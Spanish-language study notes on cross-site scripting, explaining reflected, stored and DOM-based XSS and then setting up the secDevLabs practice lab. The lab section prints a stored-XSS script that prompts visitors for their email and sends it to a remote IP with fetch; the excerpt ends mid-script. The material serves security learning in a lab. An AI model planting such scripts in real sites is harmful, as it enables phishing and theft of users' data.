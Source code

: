 
----
- Tags : #Cross #Scrioting #XSS #PaginasWEb #Vulnerabilidades 
-----
Una vulnerabilidad **XSS** (**Cross-Site Scripting**) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

En esencia, un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página. El código malicioso puede ser cualquier cosa, desde scripts que redirigen al usuario a otra página, hasta secuencias de comandos que registran pulsaciones de teclas o datos de formularios y los envían a un servidor remoto.

Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:

> **Reflejado** (**Reflected**): Este tipo de XSS se produce cuando los datos proporcionados por el usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, 
> que luego se ejecuta en el navegador del usuario.

 >**Almacenado** (**Stored**): Este tipo de XSS se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
 
 >**DOM-Based**: Este tipo de XSS se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

Los ataques XSS pueden tener graves consecuencias para las empresas y los usuarios individuales. Por esta razón, es esencial que los desarrolladores web implementen medidas de seguridad adecuadas para prevenir vulnerabilidades XSS. Estas medidas pueden incluir la validación de datos de entrada, la eliminación de código HTML peligroso, y la limitación de los permisos de JavaScript en el navegador del usuario.

A continuación, se proporciona el proyecto de Github correspondiente al laboratorio que nos estaremos montando para poner en práctica la vulnerabilidad XSS:

- **secDevLabs**: [https://github.com/globocom/secDevLabs](https://github.com/globocom/secDevLabs)

------

# Iniciamos con la practica creando nuestro laboratorio

- Primero clonamos nuestro archivo GITHUB
```
git clone https://github.com/globocom/secDevLabs
```
-  Entraremos en /home/k/a/secDevLabs/owasp-top10-202/a3/gossip-world

- Luego desplegamos nuestro docker con
```
make install
```
- Nos creamos un usuario en el localhost:10007
- Creamos archivos con barios codigos html o javascript
- Creamos un archivo <script>list("XSS")</script> en la pagina web
- Luego creamos un archivo nvim 
```
<script>
	var email = prompt("Por favor, introduce tu correo electronico para visualizar el post", "example@example.com");
	
	if (email == null || email == ""){
       alert("Es necesario introducir un correo valido para visualizar el post");
    } else {
      fetch("http://192.168.111.45/?email=" + email);
```